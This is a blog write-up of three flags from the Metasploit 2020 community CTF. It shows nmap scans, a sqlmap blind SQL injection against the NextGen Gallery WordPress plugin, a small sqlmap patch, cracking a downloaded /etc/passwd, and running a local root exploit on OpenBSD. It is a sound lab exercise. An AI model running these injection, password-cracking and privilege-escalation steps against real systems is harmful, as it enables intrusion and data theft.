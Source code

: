 Metasploit community CTF 2020 write up
######################################
:date: 2020-02-05
:author: tvd
:category: ctf
:tags: ctf, security
:slug: metasploit-2020-writeup

This past weekend I worked on the `Metasploit community CTF <https://blog.rapid7.com/2020/01/15/announcing-the-2020-metasploit-community-ctf/>`_ with the `CTF_Circle team <https://twitter.com/CTF_Circle>`_. As a group we finished 9th overall! The rest of this post includes a write up of three flags the team captured (out of the seven total). Capturing all three of these flags was a collaborative team effort, which is one of the highlights for me of working with CTF_Circle.

.. image:: /images/metasploit-2020-tweet.png
    :target: https://twitter.com/CTF_Circle/status/1224382463599767552
    :width: 75%
    :align: center

Background
----------

This CTF (`capture the flag <https://en.wikipedia.org/wiki/Capture_the_flag#Computer_security>`_) provided teams with two EC2 instances: a Kali Linux jump box and a target box. The target box ran several services that hid PNG images of playing cards that were the flags. Exploiting vulnerabilites, or in some cases sniffing traffic, enabled us to find the flags. Once we found a flag, we submitted the md5 checksum to get points.

Queen of Hearts
---------------

Using nmap, we found that port 8000 on the target box was running a WordPress site about Giraffes::

    $ nmap -A target
    ...
    8000/tcp  open   http         Apache httpd 2.4.38 ((Debian))
    |_http-generator: WordPress 5.3.2
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-server-header: Apache/2.4.38 (Debian)
    |_http-title: Lovely Giraffes &#8211; Everything about giraffes&#8230;
    |_http-trane-info: Problem with XML parsing of /evox/about

The WordPress site has WP_SITEURL set to ``http://127.0.0.1:8000``, which meant that all the subresources (e.g. scripts, style sheets, images) did not load and that links were broken. Adding a rewrite rule in Burp Suite to rewrite these urls back to ``http://target:8000`` fixed the links.

Visiting the site showed a Giraffe gallery site. Poking around there was a single post with a comment that referenced the password.

::

    $ curl target:8000/?page_id=2 | grep comments
    ... target:8000/?feed=comments-rss2 ...
    $ curl target:8000/?feed=comments-rss2 | grep password # refers to melman
    > Hey! I forgot to say, your account &#8220;melman&#8221; is still valid with the the same password, your last name.

Googling melman leads to the Madagascar movie character: `Melman Mankiewicz III <https://en.wikipedia.org/wiki/List_of_Madagascar_(franchise)_characters#Melman>`_. So the WordPress username and password are: melman/mankiewicz. These can be used at ``http://target:8000/wp-admin`` to sign in. The melman user did not have permission to upload plugins. The Nextgen Gallery was installed, version 3.2.10, and it has a `blind SQL injection vulnerability <https://wpvulndb.com/vulnerabilities/9816>`_!

::

    $ curl target:8000/ | grep wp-content/plugins
    <link rel='stylesheet' id='nextgen_widgets_style-css'  href='http://127.0.0.1:8000/wp-content/plugins/nextgen-gallery/products/photocrati_nextgen/modules/widget/static/widgets.css?ver=3.2.10' type='text/css' media='all' />

Exploiting the SQLi vulnerability required creating a new post, attaching a nextgen gallery, and then sorting the images in the gallery, which triggered a POST request to the backend that has the SQLi vulnerability.

::

    POST /index.php?photocrati_ajax=1 HTTP/1.1
    ...
    Cookie: wordpress_test_cookie=WP+Cookie+check;...

    action=get_displayed_gallery_entities&limit=5000&offset=0&nonce=2900d93354&displayed_gallery%5Bsource%5D=galleries&displayed_gallery%5Bcontainer_ids%5D%5B%5D=2&displayed_gallery%5Bdisplay_type%5D=photocrati-nextgen_basic_thumbnails&displayed_gallery%5Bslug%5D=&displayed_gallery%5Border_by%5D=img&displayed_gallery%5Border_direction%5D=ASC&displayed_gallery%5Breturns%5D=included&displayed_gallery%5Bmaximum_entity_count%5D=500&displayed_gallery%5B__defaults_set%5D=true

The ``displayed_gallery%5Border_by%5D=img`` post parameter is exploitable as a `blind SQL injection <https://owasp.org/www-community/attacks/Blind_SQL_Injection>`_. Using `sqlmap <http://sqlmap.org/>`_ we can use the blind injection to find data in the database. We set ``displayed_gallery%5Border_by%5D=%INJECT HERE%`` in the request body given to sqlmap and otherwise copy+pasted the raw request from burp. This is the command we ran to enumerate databases (we know wordpress uses mysql) and tables in the database server.

::

    $ sqlmap -r req.txt --dbms=mysql --level=5 --risk=3 --dump --threads=10 --hex --technique=BEUQ --tamper=between,randomcase,space2comment --dbs --tables

That showed there was a database called ``flag_card`` (in addition to the ``wordpress`` database) with a table called ``card``. Using sqlmap we can dump that table, which showed that there was a value in the ``image`` column that was >90k long and it started calculating the value.

::

    sqlmap -r req.txt --dbms=mysql --level=5 --risk=3 --dump --threads=10 --hex --technique=BEUQ --tamper=between,randomcase,space2comment -D flag_card -T card

Using the blind SQLi it was calculating ~1 character/second, so this was going to take 25+ hours. That's when `echo had a brilliant suggestion <https://twitter.com/nemesis09/status/1224401072225161216>`_ to md5 the content in the database, then brute force the md5 sum since that is only 32 characters. We patched sqlmap to always wrap the image column in a MD5() call (please `tweet me <https://twitter.com/tvd0x2a>`_ if there is a better way to do this with sqlmap!)::

    diff --git a/lib/core/agent.py b/lib/core/agent.py
    index aad9db4b0..189262695 100644
    --- a/lib/core/agent.py
    +++ b/lib/core/agent.py
    @@ -595,6 +595,9 @@ class Agent(object):
            Note: used primarily in dumping of custom tables
            """
                                    
    +        if field == 'image':      
    +            return 'MD5(image)'   
    +                                  
            retVal = field            
            if conf.db and table and conf.db in table:                    
                table = table.split(conf.db)[-1].strip('.')               

Rerunning the sqlmap command with this patch, it finished very quickly and displayed the card name and md5, which we submitted!

::

    Database: flag_card
    Table: card
    [1 entry]
    +----+-----------------+----------------------------------+
    | id | name            | image                            |
    +----+-----------------+----------------------------------+
    | 1  | Queen of Hearts | 111b62aef6e0a5ea78fe7485fc9b3333 |
    +----+-----------------+----------------------------------+

7 of Diamonds
-------------

Capturing this flag started with capturing the `2 of Diamonds <http://tinkerfairy.net/2-of-diamonds.txt>`_ flag, which was a repeat from the 2018 Metasploit community CTF. We downloaded the /etc/passwd file from the target 4.3BSD/VAX system and then ran `John the Ripper <https://www.openwall.com/john/>`_ over it to get passwords. These passwords enabled us to SSH into port 22 on the target box::

    $ nmap -A target
    ...
    22/tcp    open   ssh          OpenSSH 8.1 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 44:88:8c:e3:81:67:0e:5c:84:2e:54:b8:8f:17:b4:48 (RSA)
    |   256 08:7a:50:9d:67:c9:25:20:89:07:85:98:c0:34:9c:9f (ECDSA)
    |_  256 ad:df:2c:68:bc:12:49:75:c6:d4:05:5c:f5:d2:6b:be (ED25519)

That was an OpenBSD 6.6 system. The ``ken`` user was in the wheel group and Ken's password is `Ken Thompson's Unix password <https://leahneukirchen.org/blog/archive/2019/10/ken-thompson-s-unix-password.html>`_. Signing in as Ken, we were able to exploit `a privilege escalation <https://www.openwall.com/lists/oss-security/2019/12/11/9>`_ to gain root access to the system (signing in as any user would have worked), and after some searching found a bare git repo at ``/root/hai``. There is also `a RCE in OpenSMTPd in this version of OpenBSD <https://www.openwall.com/lists/oss-security/2020/01/28/3>`_ that would have enabled root access.

::

    $ ssh ken@target # password: p/q2-q4!
    $ cd exp
    $ ./exp /usr/bin/chpass
    # cd /root
    # file hai
    hai: Git bundle

We copied that bare git repo back to the jump box and then were able to generate the 7 of Diamonds by concatenating the ``/whats-this`` file from: the master branch, then the nothing-to-see-here branch, and finally from a base64 encoded blob in a commit message in the nothing-to-see-here branch. Opening just the ``/whats-this`` this file from master only showed about half of the card, so this was a fun challenge to get the other pieces!

::

    $ git clone hai hai-clone
    $ cd hai-clone
    $ cat whats-this > 7-of-diamonds.png
    $ git branch -r
      origin/HEAD -> origin/master
      origin/master
      origin/nothing-to-see-here
    $ git checkout nothing-to-see-here
    $ cat whats-this >> 7-of-diamonds.png
    $ git log # then scroll through the log messages to find a base64 text wall
    $ git log --format=%B -n 1 7cadeef01e867da960cae432000796879b77f59a | base64 -d >> 7-of-diamonds.png
    $ md5sum 7-of-diamonds.png
    ca7c8f05fc082f0b2127dd0a40c80f21  7-of-diamonds.png

.. image:: /images/metasploit-2020-7-of-diamonds.png
    :alt: 7-of-diamonds.png

Ace of Spades
-------------

Another file we found while searching the OpenBSD system was ``/etc/flag``, which was ``hexdump -C`` output of a PNG file::

    $ head -1 /etc/flag
    00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
    ...

We copied that to kali as `etcflag` and then used this python code to remove everything except the hex.

.. code-block:: python

    with open('etcflag') as fp:
        with open('etcflag.just_hex', 'w') as fp2:
            for l in fp.readlines():
                fp2.write(l[10:58])
                fp2.write('\n')

Then we reversed the hex with xxd to get the original image and the flag!

::

    $ xxd -p -r etcflag.just_hex ace-of-spades.png
    $ md5sum ace-of-spades.png
    eb8166c746b9f66297174e9073ce0fea  ace-of-spades.png

.. image:: /images/metasploit-2020-ace-of-spades.png
    :alt: ace-of-spades.png
